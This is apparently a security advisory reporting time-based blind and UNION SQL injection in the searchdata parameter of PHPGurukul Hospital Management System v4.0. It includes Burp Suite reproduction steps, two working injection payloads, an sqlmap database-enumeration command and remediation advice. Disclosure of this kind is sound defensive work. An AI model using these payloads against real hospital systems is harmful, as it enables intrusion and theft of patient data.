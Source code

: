 
# Time-Based Blind SQL Injection Vulnerability Report

## Affected Product

| **Attribute**         | **Details**                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| **Product Name**      | Hospital Management System                                                  |
| **Vendor**            | PHPGurukul                                                                  |
| **Version**           | v4.0                                                                        |
| **Affected File**     | `hospital/hms/doctor/search.php`                                              |
| **Affected Parameter**| `searchdata`                                                                  |
| **Method**            | `POST`                                                                      |
| **Vulnerability Type**| Time-Based Blind SQL Injection                                              |

## Official Website

[PHPGurukul Hospital Management System v4.0](https://phpgurukul.com/hospital-management-system-in-php/)

## Vulnerability Overview

A time-based blind and Union SQL injection vulnerability exists in the `searchdata` parameter  of **Hospital Management System v4.0**, allowing remote attackers to execute arbitrary SQL commands by triggering  with union and time delays in the database response.

## Steps to Reproduce

### 1. Access the Vulnerable URL

- Enable Burp Suite and configure your browser to route traffic through it.
- Visit the doctor Login page and autheticate, then search anything on search bar which redirects to `search.php`.
- Fill any data you wish on search bar then turn on intercept. 

```
http://192.168.137.89/hospital/hms/doctor/search.php
```

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/1.png)

![Login Page](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/2.png)

---

### 2. Intercept the Request

- Send the intercepted request to **Repeater** in Burp Suite.
- Add an asterisk `*` to the `searchdata` field to identify injection points.
- Save the modified HTTP request as `sql-doctor-search` for SQLMap.

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/3.png)

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/4.png)


---

### 3. Manual Exploitation (Not Recommended)

- Use the following payload in the `searchdata` field to test time-based and Union SQL injection manually:

```sql
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchdata=sqliTtest' AND (SELECT 1999 FROM (SELECT(SLEEP(5)))vfwq) AND 'QENh'='QENh&search=

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: searchdata=sqliTtest' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176707a71,0x61474b7357686d67784f74486a517671786974734f734949635872704967634564416370754d4d4e,0x716b7a7671)-- -&search=

```

> ⚠️ Manual testing of time-based injections is slow and prone to error. It's recommended to use **SQLMap** for automated exploitation and enumeration.

---

### 4. Automated Exploitation Using SQLMap

To list the databases via SQLMap:

- Open Kali Linux terminal and run:

```bash
sqlmap -r sql-doctor-search --dbs
```

- This command uses the `sql` request file (`-r` flag) and attempts to enumerate databases using the `--dbs` flag.

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/5.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMS4.0-Avdisories/blob/main/Union-based-sqli-on-doctor-search/6.png)


---

## Remediation

1. **Use Prepared Statements (Parameterized Queries):**  
   Avoid dynamic SQL queries that directly concatenate user input.

2. **Input Validation & Sanitization:**  
   Implement strong input validation and reject inputs containing SQL metacharacters.

3. **Least Privilege Principle:**  
   Ensure the database account used by the application has only the minimum required privileges.

4. **Web Application Firewall (WAF):**  
   Deploy a WAF to detect and block malicious SQL queries.

5. **Error Handling:**  
   Suppress detailed database errors from user-facing interfaces.

---

## References

- OWASP Top 10 - [A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [SQLMap Tool](https://sqlmap.org)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Disclosure Timeline

| Date       | Activity                             |
|------------|--------------------------------------|
| 2025-06-08 | Vulnerability Identified via SQLMap  |

---

## Author

**Report generated by:** `Subhash Paudel`  
**Tool Used:** SQLMap  
